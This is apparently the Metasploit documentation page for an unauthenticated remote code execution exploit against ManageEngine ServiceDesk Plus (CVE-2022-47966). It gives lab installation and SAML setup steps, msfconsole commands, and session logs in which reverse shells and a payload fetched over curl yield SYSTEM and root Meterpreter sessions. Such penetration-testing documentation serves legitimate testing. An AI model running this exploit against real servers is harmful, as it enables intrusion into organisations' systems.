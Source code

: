 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ServiceDesk Plus versions 14003 and below
(CVE-2022-47966). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ServiceDesk Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/

Save the certificate to a local file (e.g. `cert.cer`) and take note of the SSO
URL (`https://mocksaml.com/api/saml/sso`).

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and
select ServiceDesk Plus product with any version (e.g. `14003`). You can then
have access to all the versions and platform installers.

### Windows
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, select `Start ServiceDesk Server`
   and click `Finish`
1. Go to `C:\Program Files\ManageEngine\ServiceDesk\bin\` and run `SDPLaunch`.
   This will start a browser and get you to the login page.

### Linux (Ubuntu)
1. Make the installer executable executing `chmod +x <linux_installer>.bin`
1. Launch the Linux installer as root, select all the default options by
   clicking `Next` until you reach the installation path page.
1. Change the installation path to somewhere else than under `/root/` (it
   doesn't work with this default path) and finish the installation. You might
   get an error 'Problem in initializing Postgres', just ignore it, click `OK`
   and finish the installation. We'll fix this in the next step.
1. If you got the `Postgres` error in the last step, go to the installation
   base path (e.g. '/opt/ManageEngine/ServiceDesk/') and run the following
   commands as root:
    - `cp tools/postgres/bin/gettimezone tools/postgres/bin/gettimezone_32`
    - `cp tools/postgres/bin/gettimezone_64 tools/postgres/bin/gettimezone`
    - `cd bin`
    - `./initPgsql.sh`
1. Start the server running `run.sh`

### Enable SAML 2.0 SSO
1, Go to `http://localhost:8080`
1. Select `Log in as` `Administrator`.
1. Go to `http://localhost:8080/app#/admin` and click on `SAML Single Sign On`
   in the `​​Users & Permission` section.
1. In `Configure Identity Provider Details`, set the SSO URL from the IdP (e.g.
   `https://mocksaml.com/api/saml/sso`), set the `Name ID Format` to
   `Unspecified`, the `Algorithm` to `RSA_SHA1` and select the SiP certificate
   file (e.g. `cert.cer`).
1. In `Additional Claims` > `Default Fields`, set the `Login Name` to any
   value.
1. Click `Save`
1. Enable SSO by switching the `Enable SAML Single Sign-On ?` button on the top
   of the page.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP>`
1. You should get a shell
1. Also test with other targets against Windows and Linux


## Options

### TARGETURI
The ServiceDesk Plus SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. ServiceDesk Plus has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.


## Scenarios

### ServiceDesk Plus versions 14003 on Windows - Target 1 (`Windows Command`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:51417) at 2023-01-26 12:07:43 +0100

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Windows - Target 0 (`Windows EXE Dropper`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 0
target => 0
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.104
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.104:51435) at 2023-01-26 12:08:42 +0100
[*] Command Stager progress - 100.00% done (12025/12025 bytes)

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Command`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 2
target => 2
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (24380 bytes) to 192.168.100.109
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.109:43062) at 2023-01-26 16:07:21 +0100

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.15.0-58-generic #64~20.04.1-Ubuntu SMP Fri Jan 6 16:42:31 UTC 2023
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Dropper`)
```
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 3
target => 3
msf6 exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.100.1:8080/55oyjyc1i
[*] Client 192.168.100.109 (curl/7.68.0) requested /55oyjyc1i
[*] Sending payload to 192.168.100.109 (curl/7.68.0)
[*] Sending stage (3045348 bytes) to 192.168.100.109
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.109:40138) at 2023-01-26 16:09:37 +0100
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.109
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```

